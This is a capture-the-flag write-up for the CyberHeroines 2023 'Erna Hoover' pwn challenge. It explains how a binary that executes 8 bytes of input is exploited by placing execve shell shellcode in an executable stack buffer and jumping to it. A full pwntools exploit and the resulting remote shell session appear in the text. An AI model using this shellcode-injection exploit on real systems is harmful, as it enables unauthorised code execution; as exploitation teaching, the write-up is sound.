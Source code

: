# CyberHeroines 2023

## Erna Hoover

> [Erna Schneider Hoover](https://en.wikipedia.org/wiki/Erna_Schneider_Hoover)
> (born June 19, 1926) is an American mathematician notable for inventing a
> computerized telephone switching method which "revolutionized modern
> communication". It prevented system overloads by monitoring call center
> traffic and prioritizing tasks on phone switching systems to enable more
> robust service during peak calling times. At Bell Laboratories where she
> worked for over 32 years, Hoover was described as an important pioneer for
> women in the field of computer technology. - [Wikipedia
> Entry](https://en.wikipedia.org/wiki/Erna_Schneider_Hoover)  
>  
> Chal: Get your best shellcode going at `0.cloud.chals.io 28184` for this
> [inventor who developed the system for handling telephone traffic
> overload](https://ncwit.org/article/2023-pioneer-in-tech-award-recipient-
> erna-schneider-hoover/).  
>  
>  Author: [TJ](https://www.tjoconnor.org/)  
>  
> [`chal.bin`](https://raw.githubusercontent.com/D13David/ctf-
> writeups/main/cyberheroines23/pwn/erna_hoover/chal.bin)

Tags: _pwn_

## Solution  
We get a binary to exploit for this challenge. Lets see what's in it?

```c  
undefined8 main(void)  
{  
 size_t sVar1;  
 char local_58 [64];  
 ssize_t local_18;  
 code *local_10;  
  
 logo();  
 printf("\x1b[38;5;161m Enter Username >>> ");  
 fgets(local_58,0x32,stdin);  
 sVar1 = strcspn(local_58,"\n");  
 local_58[sVar1] = '\0';  
 printf("\x1b[38;5;161m Greetings, %s! You get 8 bytes of shellcode >>>
\n",local_58);  
 local_10 = (code *)mmap((void *)0x88880000,0x1000,7,0x32,-1,0);  
 local_18 = read(0,local_10,8);  
 (*local_10)();  
 return 0;  
}  
```

We can enter `50` bytes as a username. There is no overflow here, since the
buffer is at least `64` bytes long. After this we can enter `8` more bytes
which are then written to executable memory and run. As the comment states, we
have 8 bytes of shellcode we can use. Thats not a lot, but lets see what we
can do.

Checking the binary with `checksec` we see that basialy all security
measurements are disabled. But the best thing for us here is that stack memory
is executable. Knowing this we have a lot more space to inject shellcode as
our username. The *actual* 8 bytes of shellcode need only to jump to the
username buffer, that's doable in 8 bytes.

```bash  
$ checksec ./chal.bin  
[*] '/home/ctf/chal.bin'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x400000)  
   RWX:      Has RWX segments  
```

To get shell we can for instance use [`this shellcode`](https://shell-
storm.org/shellcode/files/shellcode-806.html)

```asm  
 xor eax, eax  
 mov rbx, 0xFF978CD091969DD1  
 neg rbx  
 push rbx  
 push rsp  
 pop rdi  
 cdq  
 push rdx  
 push rdi  
 push rsp  
 pop rsi  
 mov al, 0x3b  
 syscall  
```

Having this on the stack we only need to know where to jump to. When
inspecting with `Ghidra` or `gdb` we see the buffer is `120` bytes from `rsp`
when the trampoline shellcode is executed (before the call `buffer address -
rsp = 112` bytes plus 8 bytes return address for the call to our shellcode).
So we can use `rsp` as reference to jump to our buffer.

```  
 add rsp, 120  
 jmp rsp  
```

The full exploit then looks something like this:

```  
from pwn import *

#context.log_level = "DEBUG"  
context.arch = "amd64"

#p = process("./chal.bin")  
p = remote("0.cloud.chals.io", 28184)

payload1 = asm('''  
   xor eax, eax  
   mov rbx, 0xFF978CD091969DD1  
   neg rbx  
   push rbx  
   push rsp  
   pop rdi  
   cdq  
   push rdx  
   push rdi  
   push rsp  
   pop rsi  
   mov al, 0x3b  
   syscall  
''')

payload2 = asm('''  
       add rsp, 120  
       jmp rsp  
''')

p.sendline(payload1)  
p.sendlineafter(b"shellcode >>> \n", payload2)  
p.interactive()  
```

Running this gives us shell on the remote machine and we can just cat the
flag.

```bash  
$ python solve.py  
[+] Opening connection to 0.cloud.chals.io on port 28184: Done  
[*] Switching to interactive mode  
$ ls  
-  
banner_fail  
bin  
boot  
chal  
dev  
etc  
flag.txt  
home  
lib  
lib32  
lib64  
libx32  
media  
mnt  
opt  
proc  
pwndbg  
root  
run  
sbin  
service.conf  
srv  
sys  
tmp  
usr  
var  
wrapper  
$ cat flag.txt  
chctf{r3volutioniz3d_moD3rn_coMMunicat10ns}$  
```

Flag `chctf{r3volutioniz3d_moD3rn_coMMunicat10ns}`

Original writeup (https://github.com/D13David/ctf-
writeups/blob/main/cyberheroines23/pwn/erna_hoover/README.md).